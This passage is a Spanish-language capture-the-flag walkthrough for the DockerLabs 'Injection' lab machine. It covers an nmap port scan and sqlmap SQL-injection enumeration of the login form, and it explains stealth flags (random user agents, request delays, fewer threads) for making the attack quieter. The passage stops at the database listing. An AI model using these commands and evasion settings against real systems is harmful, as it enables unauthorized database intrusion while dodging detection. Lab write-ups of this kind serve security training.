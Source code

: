 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Injection".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh injection.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene 2 puertos abiertos, el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Lo primero que haremos sera poner la IP en el navegador para ver si es posible obtener alguna informacion util.
Vemos un panel de Login, por lo que vamos a intentar realizar alguna "SQL Injection" para ver si podemos acceder a alguna BBDD, ya que no tenemos ningun usuario ni ninguna contraseña.
Para ello podemos usar 2 metodos bastante sencillos. Uno largo, y otro corto, asi que empezaremos primero por el largo:

#### **METODO LARGO:**
Vamos a empezar con SQLMAP utilizando el siguiente comando:
```
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
                    
	--forms = es para decirle que vaya atacando los formulario HTML que vaya encontrando (en este caso, el formulario de Login)
	--dbs = es lo primero que tenemos que hacer pq antes de nada hay que enumerar/encontrar las BBDD existentes
	--batch = escribimos esto para que lo haga de forma automatica y sin preguntarnos. Una automatizacion, sin mas.
```

**NOTA: SI QUEREMOS UN ESCANEO MUCHISIMO MAS SILENCIOSO (Y MAS LENTO, LOGICAMENTE) AÑADIRIAMOS LOS PARAMETROS DE AQUI ABAJO:**

```
	--flush-session --threads=2 --random-agent --delay=5 --time-sec=5 --safe-url=http://192.168.1.154/administrator/ --safe-freq=20 --level=2 --risk=2

		--flush-session  = limpia la sesion antigua para que no utilice esos datos y hacer asi menos "ruido".
	    --threads=2      = numero de hilos en ejecucion. Cuanto menos mejor ya que hace menos "ruido", pero claro mucho mas lento. Usamos 2 hilos a la vez.
        --random-agent   = utiliza "user agents" aleatorios por cada solicitud. Hace que parezcan diferentes usuarios de diferentes Sistemas Operativos (Linux, Mac OS, Windows...)
		--delay=5        = añadir un retraso entre solicitudes, por lo que reducimos su frecuencia. Retraso de 5 segundos.
        --time-sec=5     = tiempo de espera en caso de que el servidor devuelva respuestas lentas. Esperamos 5 segundos.
		        === Estos dos parametros van juntos ===
        --safe-url=http://192.168.1.154/administrator/  = Es la misma que con el parametro "-u". Se comprueba que el escaneo NO este modificando el comportamiento de dicha "url".
        --safe-freq=20   = Le decimos que cada 20 solicitudes, realice una a la "url" correcta para ver si ha habido alguna alteracion en dicha Web, o no. 
		        === Estos dos parametros tambien suelen ir juntos ===
        --level=2        = Estamos especificando el nivel del test a ejecutar
        --risk=2         = Decimos el nivel de riegos a ejecutar. 
```
Tras lanzar el SQLMAP, vemos en la terminal la siguiente informacion:
```
available databases [5]:
	[*] information_schema
	[*] mysql
```